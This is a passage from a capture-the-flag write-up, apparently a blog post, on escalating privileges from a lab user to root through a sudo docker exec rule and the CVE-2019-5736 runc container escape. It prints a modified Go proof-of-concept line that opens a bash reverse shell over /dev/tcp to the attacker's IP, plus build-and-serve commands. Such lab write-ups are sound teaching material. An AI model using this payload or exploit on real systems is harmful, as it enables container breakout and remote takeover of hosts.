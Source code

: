 Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Aug  3 20:35:05 2021 from 10.10.14.12
noah@thenotebook:~$ whoami
noah
noah@thenotebook:~$ id
uid=1000(noah) gid=1000(noah) groups=1000(noah)
noah@thenotebook:~$ cat user.txt |wc
      1       1      33
noah@thenotebook:~$ 
{% endhighlight %}

## Root
Running sudo -l we see we can run commands in the weapp-dev01 container with elevated privileges.

{% highlight bash %}
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
{% endhighlight %}

Googling what we can do, we find an article on hacktricks suggesting trying CVE-2019-5736 based on our ability to run exec with docker. 
https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

We find a POC for the exploit here
https://github.com/Frichetten/CVE-2019-5736-PoC
Using the POC in the previous link, we make one modification to the payload variable to get a reverse shell.  
Below is a portion of the POC with the modified payload variable. 

{% highlight go %}
//<--snip-->


// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.12/9652 0>&1"

func main() {
        // First we overwrite /bin/sh with the /proc/self/exe interpreter path
        fd, err := os.Create("/bin/sh")


//<--snip-->
{% endhighlight %}

Next we build the poc and host it on our web server on our local machine.

{% highlight bash %}
$ go build 
$ ls
cve-2019-5736  main.go
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
{% endhighlight %}
